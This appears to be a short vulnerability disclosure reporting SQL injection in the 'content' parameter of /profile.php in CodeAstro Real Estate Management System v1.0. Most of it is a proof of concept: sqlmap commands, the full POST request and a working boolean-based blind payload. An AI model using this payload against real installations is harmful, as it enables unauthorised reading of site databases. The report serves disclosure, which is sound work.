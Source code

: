 # SQLi vulnerability in CodeAstro Real Estate Management System v1.0 of file /profile.php

**vender**:

- CodeAstro Real Estate Management System
- [CodeAstro - Home For All Free Source Codes](https://codeastro.com/)

**SoftLink**:

- https://codeastro.com/real-estate-management-system-in-php-with-source-code/

**Vulnerable File**

- /profile.php

**Version**

- V1.0

### POC

```bash
sqlmap -r request.txt --level 5 --batch
```



```http
POST /profile.php HTTP/1.1
Host: www.realestate.com
Origin: http://www.realestate.com
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=d4bb5bt4089bi920s8gj8fb0np
Content-Type: application/x-www-form-urlencoded
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Upgrade-Insecure-Requests: 1
Referer: http://www.realestate.com/profile.php
Content-Length: 61

name=test&phone=1888888888&content=11111&insert=Send+Feedback
```

```bash
sqlmap -r request.txt --level 5
```

```
---
Parameter: content (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: name=test&phone=1888888888&content=11111' RLIKE (SELECT (CASE WHEN (9874=9874) THEN 11111 ELSE 0x28 END)) AND 'tydV'='tydV&insert=Send Feedback
---
```





![image-20250602121253240](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202506021212402.png)